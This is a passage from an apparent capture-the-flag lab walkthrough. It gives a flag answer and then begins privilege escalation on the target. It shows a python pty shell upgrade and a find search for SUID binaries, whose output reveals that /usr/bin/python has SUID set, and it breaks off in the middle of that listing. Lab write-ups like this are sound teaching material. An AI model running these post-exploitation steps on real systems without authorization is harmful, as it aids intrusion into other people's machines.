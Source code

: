 
__A__:

```
THM{y0u_g0t_a_sh3ll}
```

### Privilege escalation
Now that we have a shell, let's escalate our privileges to root.
#### Answer the questions below
---

__Q__: Search for files with SUID permission, which file is weird?

Get an old friend's help for upward social mobility ...

``` bash
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.4$
bash-4.4$ find / -perm -4000 -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
```